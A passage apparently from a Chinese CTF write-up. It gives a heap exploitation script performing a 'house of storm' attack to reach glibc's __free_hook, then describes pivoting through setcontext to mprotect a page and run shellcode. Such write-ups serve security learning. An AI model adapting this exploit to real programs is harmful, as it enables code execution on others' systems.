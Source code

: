 	#dbg()

	add(0x18)#5
	add(0x4d8)#11
	free(5)
	free(6)
	
	#dbg()
	
	add(0x30)#5
	add(0x4e8)#6
	
	#dbg()
	
	#-------------------准备 large chunk-----------------------------------#
	edit(8, 'a'*0x4f0+p64(0x500))
	free(8)
	edit(7, 'a'*0x18)
	add(0x18)#8
	add(0x4d8)#12
	free(8)
	free(9)
	add(0x40)#8
	#---------------unsorted chunk 和 large chunk 放到对应位置----------------------#
	
	#dbg()
	
	free(6)
	
	#dbg()
	
	add(0x4e8)#6
	
	#dbg()
	
	free(6)

	#dbg()

	#pause()
	#--------------修改他们的满足条件进行 house of strom------------------------------#
	storage = free_hook
	fake_chunk = storage - 0x20
	payload = '\x00'*0x10 + p64(0) + p64(0x4f1) + p64(0) + p64(fake_chunk)
	edit(11, payload)

	#dbg()

	payload = '\x00'*0x20 + p64(0) + p64(0x4e1) + p64(0) + p64(fake_chunk+8) +p64(0) + p64(fake_chunk-0x18-5)
	edit(12, payload)

	#dbg()

	add(0x48)#6

### mprotect+shellcode
修改free_hook为set_context+53，free_hook+0x18，free_hook+0x18，shellcode1,
setcontext函数负责对各个寄存器进行赋值，甚至可以控制rip，对寄存器进行赋值主要从+53开始，shellcode1即为read(0, new_addr,0x1000)，new_addr即为（free_hook &0xFFFFFFFFFFFFF000）free_hook所在内存页的起始位置。我们将对这里赋予可读可写可执行权限。
